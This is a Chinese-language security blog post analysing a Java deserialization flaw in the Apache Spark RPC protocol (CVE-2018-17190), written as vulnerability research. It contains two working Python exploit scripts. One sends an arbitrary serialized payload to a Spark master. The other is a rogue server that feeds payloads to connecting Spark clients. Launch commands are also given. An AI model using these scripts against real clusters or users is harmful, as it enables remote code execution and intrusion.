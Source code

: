 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[blog.riskivy.com\](https://blog.riskivy.com/apache-spark-rpc%e5%8d%8f%e8%ae%ae%e4%b8%ad%e7%9a%84%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)

Apache Spark RPC 协议中的反序列化漏洞分析
-----------------------------

1\. 前言
------

在前一阵，`Spark`官方发布了标题为《CVE-2018-17190: Unsecured Apache Spark standalone executes user code》的安全公告。  
公告中指明漏洞影响版本为全版本，且没有标明已修复的版本，只有相关缓解措施。  
官方缓解措施如下：在任何未受到不必要访问保护的`Spark`单机群集上启用身份验证，例如通过网络层面限制。使用`spark.authenticate`和相关的安全属性。  
查询了相关文档，`spark.authenticate`是 RPC 协议中的一个配置属性，此参数控制`Spark RPC`是否使用共享密钥进行认证。

2.Spark RPC
-----------

`Spark RPC` 是一个自定义的协议。底层是基于`netty4`开发的，相关的实现封装在`spark-network-common.jar`和`spark-core.jar`中，其中前者使用的`JAVA`开发的后者使用的是`scala`语言。  
协议内部结构由两部分构成`header`和`body`，`header`中的内容包括: 整个 frame 的长度（8 个字节），message 的类型（1 个字节），以及 requestID（8 个字节）还有 body 的长度（4 个字节）  
body 根据协议定义的数据类型不同略有差异.  
![](https://blog.riskivy.com/wp-content/uploads/2018/12/c380f49dfcc8116c68a46f8cddc5288c.png)

`RpcRequest`消息类型的 body 大致由两部分构造，前半部分包含通信双方的地址和端口以及名字信息，接下来就是 java 序列化后的内容`ac ed 00 05`开头。  
![](https://blog.riskivy.com/wp-content/uploads/2018/12/596d1d0bd759bd000e8ba84cbcd430f1.png)

消息类型为 RpcResponse 的 body 就直接是 java 反序列后的内容。  
![](https://blog.riskivy.com/wp-content/uploads/2018/12/03db15ecbf7e462d44449682fa60674e.png)

3\. 搭建 Spark 单独集群服务器  
从官网下载，然后通过 - h 指定 IP 地址，让端口监听在所有的网卡上  
`./start-master.sh -h 0.0.0.0 -p 7077`

4\. 证明服务端存在反序列化过程
-----------------

`spark_exploit.py` 通过第一个参数和第二个参数指明远程 spark 集群的连接信息，第三个参数为 JAVA 反序列化漏洞`payload`。  
通过调用 `build_msg` 函数将 `payload` 构建到消息中再发送给服务端，过程比较简单。

```
#!/usr/bin/python
import socket
import os
import sys
import struct

if len(sys.argv) < 3:
    print 'Usage: python %s <host> <port> </path/to/payload>' % os.path.basename(sys.argv\[0\])
    sys.exit()

sock = socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)
sock.settimeout(5)

server\_address = (sys.argv\[1\], int(sys.argv\[2\]))
print '\[+\] Connecting to %s port %s' % server\_address
sock.connect(server\_address)


def build\_msg(payload):
    msg\_type = '\\x03'
    request\_id = '\\x50\\xb8\\xc7\\x2c\\x67\\x41\\xf7\\xc6'
    head\_length = 21
    other\_msg = """01 00 0c 31 39 32 2e 31  36 38 2e 35 36 2e 31 00
00 a1 be 01 00 0c 31 39  32 2e 31 36 38 2e 31 2e
31 35 00 00 04 d2 00 11  65 6e 64 70 6f 69 6e 74
2d 76 65 72 69 66 69 65  72"""

    other\_msg = other\_msg.replace('\\n', "").replace(' ', "").decode('hex')
    #end\_msg = """00 06 4d 61 73 74 65 72"""
    #end\_msg = end\_msg.replace('\\n', "").replace(' ', "").decode('hex')
    body\_msg = other\_msg + payload

    msg = struct.pack('>Q',len(body\_msg) + 21) + msg\_type + request\_id
    msg += struct.pack('>I',len(body\_msg)) + body\_msg

    return msg 


payloadObj = open(sys.argv\[3\],'rb').read()
payload = build\_msg(payloadObj)
print repr(payload)
print '\[+\] Sending payload...'
sock.send(payload)
data = sock.recv(1024)
if "invalid type code: 00" in data:
    print "\[!\] vul spark://%s:%s"%(sys.argv\[1\], int(sys.argv\[2\]))

print >>sys.stderr, 'received "%s"' % data


```

![](https://blog.riskivy.com/wp-content/uploads/2018/12/39c92f0a9a4175bd3a227dd0d5d5e236.png)

5\. 反向操作客户端
-----------

`evil_spark_server.py` 脚本通过继承`BaseRequestHandler`类完成了一个简单的 TCP 服务，对发送过来的数据提取出 request\_id, 然后再调用 build\_msg，将 request\_id 和 payload 构成合法的 RPC 响应数据包发送给客户端。

```
#!/usr/bin/python
import socket
import os
import sys
import struct

from SocketServer import BaseRequestHandler, ThreadingTCPServer

class EchoHandler(BaseRequestHandler):
    def handle(self):
        print 'Got connection from %s'%(str(self.client\_address))
        while True:
            msg = self.request.recv(8192)
            print msg
            if not msg:
                break

            if len(msg) > 16:
                print "Send msg>>>"
                self.request.send(build\_msg(msg\[9:17\]))


def build\_msg(request\_id):
    payloadObj = open(sys.argv\[2\],'rb').read()
    msg\_type = '\\x04'
    #request\_id = '\\x50\\xb8\\xc7\\x2c\\x67\\x41\\xf7\\xc7'
    head\_length = 21

    msg = struct.pack('>Q',len(payloadObj) + 21) + msg\_type + request\_id
    msg += struct.pack('>I',len(payloadObj)) + payloadObj
    return msg

if \_\_name\_\_ == '\_\_main\_\_':
    if len(sys.argv) < 3:
        print 'Usage: python %s <port> </path/to/payload>' % os.path.basename(sys.argv\[0\])
        sys.exit()

    serv = ThreadingTCPServer(('0.0.0.0', int(sys.argv\[1\])), EchoHandler)
    print "Server listening on 0.0.0.0:%s"%(sys.argv\[1\])
    serv.serve\_forever()


```

启动服务

```
python evil\_spark\_server.py 1234 ser.bin


```

使用 spark 客户端进行连接.

```
spark-shell --master spark://127.0.0.1:1234


```

![](https://blog.riskivy.com/wp-content/uploads/2018/12/389ac184e438f5289aeafc490c60e2e9.png)

6\. 总结
------

通过抓包看请求数据以及阅读相关代码, 逐步确定 RPC 协议中的请求数据。客户端和服务端都使用了 JAVA 序列化来传输数据，两边都可以进行利用。  
当反过头来想利用反序列化来执行系统命令时，查找 ysoserial 发现除利用低版本 jdk 构造利用链外，并无其他合适的 gadget。  
随着时间的推移，各个库中的漏洞都将被修复和升级，已有的 gadget 将不再起作用。java 反序列化漏洞终将成为历史。

7\. 参考
------

https://spark.apache.org/security.html  
https://zhuanlan.zhihu.com/p/28893155

作者：斗象能力中心 TCC - 星光